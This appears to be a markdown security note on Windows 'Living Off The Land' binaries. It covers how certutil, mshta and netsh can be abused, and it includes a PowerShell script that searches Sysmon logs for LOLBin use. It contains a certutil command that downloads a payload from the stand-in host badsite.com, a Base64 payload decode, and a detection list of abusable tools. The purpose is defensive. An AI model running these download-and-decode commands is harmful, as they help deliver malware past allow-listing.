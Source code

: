 

# LOLBins - Living Off The Land Binaries

All operating systems provide a rich toolbox to achieve multiple day-to-day tasks 
- like maintenance of the certificates, installation of patches and applications, management of files, and many more. 
- Those tools are installed by default and available to all users without specific access rights (most of the time). 
- as they are signed by the operating system, they are considered safe by default. 


The problem is the following: These tools are very powerful and provide interesting features for attackers. They are used for malicious purposes. Why reinvent the wheel if an attacker has access to a tool to achieve a specific task? Let's have a look at some tools available in every Microsoft Windows operating system. If you're using AppLocker, they are chances that you're allowing Microsoft signed binaries in your policy. 


## exe


Let's review some example:

`certutil.exe` 
- a tool used to work with certificates

```bash
# but it can also be used as a command-line browser to download some content from an URL:
C:\Temp> certutil.exe -urlcache -split -f "https://badsite.com/payload.exe" iambad.exe

# It can also be used to quickly decode a Base64-encoded payload:
C:\Temp> certutil -decode payload.txt payload.exe
```


I also mentioned several times in other diaries other looks like `msbuild.exe, csc.exe, or jsc.exe` that are provided by the `.NET Framework`. They are useful to compile code on the fly or to spawn other processes.


`ping.exe` 
- can be used in alternative ways. 

```bash
# By example to implement a pause in a script:
C:\Temp> ping -n 5 127.0.0.1
# Ping will send 5 ICMP request packets to the loopback interface, one per second. So, we introduce a pause of 5 seconds.
```



They are plenty of tools that could be potentially dangerous if invoked from an abnormal process (like word.exe or powershell.exe) or by a regular user. 

A nice list has been compiled and made available online: [The LOLBAS project](https://lolbas-project.github.io/) 

---


### mshta.exe

mshta.exe `Microsoft HTML Application Host`
- mshta.exe is a part of Microsoft Windows Operating System which is needed to `execute .HTA files`. 
- This program is a non-essential system process, but should not be terminated unless suspected to be causing problems.
- mshta.exe 是存放在目录 C:\Windows\System32。 
- 已知的 Windows XP 文件大小为 45,568 字节 (占总出现比率 66% )，29,184 字节。
- 应用程序没有可视窗口。 总结在技术上威胁的危险度是 8% , 但是也可以参考 用户意见。


---


### netsh.exe
- 是一个管理员可以用来在命令提示符处配置并监视基于 Windows 的计算机的工具。
- 使用 `Netsh.exe` 工具，可以将输入的上下文命令定向到适当的帮助器，然后帮助器将执行命令。
- 帮助器是个动态链接库 `(.dll)` 文件，它通过提供配置、监视和支持一种或多种服务、实用工具或协议，来扩展 `Netsh.exe` 工具的功能。




---


## solution

track the usage of those tools via Sysmon and Powershell. 

example

```bash
# quick script to extract interesting Sysmon events: 

$lolbins = @("Atbroker.exe","Bash.exe","Bitsadmin.exe","Certutil.exe","Cmdkey.exe","Cmstp.exe","Control.exe","Csc.exe","Dfsvc.exe","Diskshadow.exe","Dnscmd.exe","Esentutl.exe","Eventvwr.exe","Expand.exe","Extexport.exe","Extrac32.exe","Findstr.exe","Forfiles.exe","Ftp.exe","Gpscript.exe","Hh.exe","Ie4uinit.exe","Ieexec.exe","Infdefaultinstall.exe","Installutil.exe","Makecab.exe","Mavinject.exe","Microsoft.Workflow.Compiler.exe","Mmc.exe","Msbuild.exe","Msconfig.exe","Msdt.exe","Mshta.exe","Msiexec.exe","Odbcconf.exe","Pcalua.exe","Pcwrun.exe","Presentationhost.exe","Print.exe","Reg.exe","Regasm.exe","Regedit.exe","Register-cimprovider.exe","Regsvcs.exe","Regsvr32.exe","Replace.exe","Rpcping.exe","Rundll32.exe","Runonce.exe","Runscripthelper.exe","Sc.exe","Schtasks.exe","Scriptrunner.exe","SyncAppvPublishingServer.exe","Verclsid.exe","Wab.exe","Wmic.exe","Wscript.exe","Xwizard.exe","Appvlp.exe","Bginfo.exe","Cdb.exe","csi.exe","dnx.exe","Dxcap.exe","Mftrace.exe","Msdeploy.exe","msxsl.exe","rcsi.exe","Sqldumper.exe","Sqlps.exe","SQLToolsPS.exe","te.exe","Tracker.exe","vsjitdebugger.exe")

Foreach($lolbin in $lolbins)
{
    Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Sysmon/Operational";id=1;} | ?{ $_.message -match "`r`nImage: .*$lolbin`r`n" } | %{
        [regex]$regex = "(?i)`r`n(?<image>Image: .*$lolbin)`r`n(?<args>CommandLine: .*)`r`n"
        $match = $regex.Match($_.message)

        $Out = New-Object PSObject
        $Out | Add-Member Noteproperty 'Binary' $lolbin
        $Out | Add-Member Noteproperty 'Image' $match.Groups["image"].value
        $Out | Add-Member Noteproperty 'Args' $match.Groups["args"].value
        $Out | fl
    }
}
```


---



ref:
- [1] https://isc.sans.edu/forums/diary/Malware+Samples+Compiling+Their+Next+Stage+on+Premise/25278
- [2] https://lolbas-project.github.io
- [3] https://gist.github.com/leoloobeek/a3a4d9af3bf7fb37b6d82a7a17e7176d
- [4] https://raw.githubusercontent.com/ion-storm/sysmon-config/master/sysmonconfig-export.xml






.